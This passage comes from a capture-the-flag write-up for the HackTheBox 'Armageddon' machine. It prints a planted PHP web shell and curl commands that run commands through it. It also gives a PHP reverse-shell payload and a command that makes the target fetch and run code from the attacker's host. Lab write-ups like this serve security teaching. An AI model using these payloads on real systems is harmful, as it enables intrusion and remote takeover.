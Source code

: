 ```bash
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>>id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
armageddon.htb>>
```

But we can't get a reverse shell from there, we face the following thing when we try.

```
[!] WARNING: Detected an known bad character (>)
```

Let's interact with the webshell directly and reverse connnect a shell.<br>
First create a file named `shell`.<br>
Put the followings inside the file.
```php
<?php $sock=fsockopen("10.10.14.XX",2121);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```
Open a web server using `php`<br>
Do the curl request as follows.

```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> curl -s http://10.10.10.233/shell.php -d 'c=curl 10.10.14.77/shell | php'
PHP Warning:  fsockopen(): unable to connect to 10.10.14.77:2121 (Permission denied) in - on line 1
PHP Warning:  proc_open(): Descriptor item must be either an array or a File-Handle in - on line 1
```

We got some error. Let's make it reverse connect to us from well known ports.<br>
Change the port both in your nc listener and reverse shell.

![](src/shell.png)
